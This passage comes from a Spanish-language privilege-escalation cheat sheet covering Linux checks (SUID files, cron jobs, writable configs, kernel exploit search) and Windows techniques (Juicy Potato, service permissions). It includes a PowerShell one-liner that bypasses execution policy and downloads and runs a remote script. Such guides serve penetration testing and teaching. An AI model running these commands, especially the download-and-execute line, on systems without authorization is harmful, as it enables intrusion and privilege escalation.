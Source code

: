     ```bash
    powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GhostPack/Seatbelt/master/Seatbelt/Seatbelt.ps1'); Invoke-Seatbelt -group=all"
    ```
    

### 3. Técnicas Comunes de Escalación de Privilegios

### 3.1. Linux

- **SUID/GUID Files**:
Archivos con permisos SUID/SGID permiten la ejecución con privilegios del propietario.
    
    ```bash
    find / -perm -4000 -type f 2>/dev/null
    ```
    
- **Configuraciones de Cron**:
Los trabajos de cron con permisos incorrectos pueden ser explotados.
    
    ```bash
    cat /etc/crontab
    ls -la /etc/cron.*
    ```
    
- **Permisos Incorrectos en Archivos Importantes**:
Archivos de configuración sensibles con permisos incorrectos pueden ser explotados.
    
    ```bash
    find /etc -name "*.conf" -perm /o=w 2>/dev/null
    ```
    
- **Kernel Exploits**:
Buscar exploits para la versión específica del kernel.
    
    ```bash
    uname -r
    searchsploit linux kernel 4.x.x
    ```
    

### 3.2. Windows

- **Juicy Potato**:
Utiliza el privilegio SeImpersonatePrivilege para escalar privilegios.
    
    ```bash
    https://github.com/ohpe/juicy-potato
    ```
    
- **Insecure Service Permissions**:
Servicios con permisos inseguros pueden ser explotados.
    
    ```bash
    sc qc [service_name]
    icacls [service_path]
    ```
    